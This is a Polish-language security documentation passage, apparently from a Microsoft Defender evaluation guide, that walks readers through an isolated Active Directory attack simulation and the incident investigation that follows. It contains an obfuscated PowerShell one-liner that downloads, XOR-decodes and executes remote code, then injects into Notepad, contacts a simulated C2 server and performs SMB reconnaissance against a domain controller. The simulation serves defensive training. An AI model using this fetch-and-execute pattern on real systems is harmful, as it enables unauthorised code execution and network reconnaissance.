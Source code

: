 ### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>Uruchamianie odizolowanych AD DS ataków na kontroler domeny

Aby uruchomić symulację scenariusza ataków:

1. Upewnij się, że środowisko pilotażowe zawiera odizolowany AD DS domeny i Windows urządzenia.

2. Zaloguj się na urządzeniu testowym za pomocą testowego konta użytkownika.

3. Otwórz okno Windows PowerShell na urządzeniu testowym.

4. Skopiuj następujący skrypt symulowania:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Po otwarciu tego artykułu w przeglądarce internetowej mogą wystąpić problemy z kopiowaniem pełnego tekstu bez utraty określonych znaków lub wprowadzeniem dodatkowych podziałów wiersza. W takim przypadku pobierz ten dokument i otwórz go w programie Adobe Reader.

5. Wklej i uruchom skopiowany skrypt w oknie programu PowerShell.

> [!NOTE]
> Jeśli korzystasz z programu PowerShell przy użyciu protokołu pulpitu zdalnego (RDP), użyj polecenia Wpisz tekst schowka w kliencie RDP, ponieważ metoda **klawisza dostępu CTRL-V** lub kliknięcia prawym przyciskiem myszy może nie działać. Ostatnie wersje programu PowerShell czasami również nie akceptują tej metody. Najpierw trzeba skopiować program Notatnik w pamięci, skopiować go na maszynę wirtualną, a następnie wkleić do programu PowerShell.

Kilka sekund później zostanie otwarta Notatnik. Symulowany kod ataków zostanie wsadowany w Notatnik. Nie otwieraj automatycznie wygenerowanego Notatnik, aby było pełne środowisko scenariusza.

Symulowany kod ataków spróbuje przekazać do zewnętrznego adresu IP (simulując serwer C2), a następnie podejmie próbę rozpoznania kontrolera domeny za pośrednictwem protokołu SMB.

Po ukończeniu tego skryptu na konsoli programu PowerShell zostanie wyświetlony ten komunikat:

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Aby zobaczyć działanie funkcji automatycznego reagowania i zdarzenia, nie notepad.exe otwarty. Zostanie wyświetlony automatyczny proces reakcji i zdarzenia oraz zatrzymania Notatnik zdarzenia.

### <a name="investigate-the-incident-for-the-simulated-attack"></a>Badanie zdarzenia w celu symulowanego ataku

> [!NOTE]
> Zanim przejdę przez tę symulację, obejrzyj poniższy klip wideo, aby zobaczyć, jak zarządzanie zdarzeniami ułatwia skonsulować powiązane alerty w ramach procesu badania, gdzie można je znaleźć w portalu i jak może ułatwić Ci to działanie w ramach operacji zabezpieczeń:
